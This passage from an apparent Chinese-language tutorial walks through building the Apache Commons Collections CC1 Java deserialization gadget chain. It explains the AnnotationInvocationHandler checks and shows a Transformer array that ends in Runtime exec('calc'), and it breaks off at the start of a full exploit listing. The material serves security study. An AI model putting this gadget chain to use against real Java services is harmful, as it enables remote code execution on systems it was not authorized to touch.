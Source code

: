 ![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240709224154670.png)

比如Target注解内有value方法，如果name值为value，是不是memberType就是value？紧随其后的if判断就为真，因为get到了其值。如果name为其他字符串，就get不到值，自然if判断为假，进不了内部

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240709224402111.png)



### 满足第二个if

isInstance是一个native（C或C++实现的本地代码，不能看到代码内容）方法，作用是判断指定的对象是否是该类或其子类的实例，我们put进的value为null，当然不是。第二个判断是value值是否为异常代理类的实例（isInstance和instanceof的作用一样）

即第二个填null之外的大部分字符串都能符合要求



### 改变setValue参数值

这里的setValue是他赋予的值，我们要求传入的setValue参数值需要为Runtime.class，见上文代码4

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240709225420898.png)

回想一下，我们是在哪需要这个Runtime.class？是在代码2中的

```java
Method gMethod =(Method) new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class);
```

只是在后面构造时一步一步用不同的函数传参，先是chainedTransformer，又是setValue

既然是在最开始的InvokerTransformer.transform中使用，刚好有一个Transformer，叫ConstantTransformer。构造函数传入常量，然后其transformer返回该常量。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240709231907392.png)

那在ChainedTransformer调用最开始加一个实例化ConstantTransformer，传入Runtime.class不就完了？即：

```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };
```

这样就根本不用管setValue传什么了。



完整代码如下：

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
```